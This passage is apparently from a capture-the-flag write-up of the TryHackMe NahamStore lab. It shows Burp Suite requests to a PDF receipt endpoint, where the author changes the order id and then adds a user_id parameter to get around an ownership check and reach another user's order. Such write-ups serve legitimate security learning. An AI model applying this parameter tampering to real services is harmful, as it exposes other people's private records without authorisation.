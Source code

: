 **After clicked the `Make payment` button, we'll be redirected to `http://nahamstore.thm/account/orders/<id>`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a31.png)

**Then we can click `PDF Receipt`:**

**Burp Suite:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=4
```

Again, **what if I replaced the `id` into `3`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a32.png)

Error? `Order does not belong to this user_id`

Hmm... **What if I add another POST parameter called `user_id`?**

**Burp Suite:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=3&user_id=3
```
